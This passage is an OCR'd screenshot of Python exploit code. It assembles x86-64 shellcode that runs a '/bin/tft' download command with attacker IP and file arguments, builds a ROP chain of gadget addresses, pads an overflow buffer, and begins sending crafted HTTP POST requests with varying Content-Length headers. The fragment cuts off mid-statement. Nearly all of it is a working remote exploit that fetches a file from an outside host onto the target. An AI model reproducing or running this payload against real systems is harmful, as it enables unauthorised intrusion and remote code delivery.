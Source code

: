 ```
    cmd_path1 = bytes2stack_bytes(b"/bin/tft")
    shellcode = asm('''
      sub rsp,0x1000
      push 0
      mov rbx, {}
      push rbx
      mov r9, rsp
      mov rbx, {}
      push rbx
      mov r8, rsp
      mov rbx, {}
      push rbx
      mov rcx,rsp
      mov rbx, {}
      push rbx
      mov rbx, {}
      push rbx
      mov rdx,rsp
      mov rbx,{}
      push rbx
      mov rbx,{}
      push rbx
      mov rsi,rsp
      mov rdi,rsp
      mov rbx,{}
      push rbx
      mov rbx,{}
      push rbx
      mov r10,rsp
      add rax, 0x90
      mov rsp, rax
      push r10
      sub rsp,8

      ret
'''.format(arg2,arg1,filename,ip_addr2,ip_addr1,cmd_path2,cmd_path1,save_path1,save_path2))
    print(shellcode)
    print(hex(len(shellcode)))
    return shellcode
ROP=struct.pack('q',0x000000000060e7e9)
ROP+=struct.pack('Q',0xffffffffffeA5288)
ROP+=struct.pack('q',0)
ROP+=struct.pack('q',0x0000000002a0e0e0)
ROP+=struct.pack('q',0x000000000257008a)
ROP+=struct.pack('q',0x0000000000530c8e)
ROP+=struct.pack('q',0x200000)
ROP+=struct.pack('q',0x0000000000509372)
ROP+=struct.pack('q',0x7)
ROP+=struct.pack('q',0x000000000043F3D0)
ROP+=struct.pack('q',0x00000000005dc96d)
ROP+=shellcode1
#441A50

print(hex(len(ROP)))

payload=b'a'*0x560+ROP
payload=payload.ljust(0x620,b'a')+struct.pack('q', 0x0000000000febbaa)+gen_shellcode_download_file()+struct.pack('q',0x43A160)
for CL in content_length:
    try:
        data = b"POST " + path + b" HTTP/1.1\r\nHost: " + \
            ip.encode() + b"\r\nContent-Length: " + CL.encode() + \
```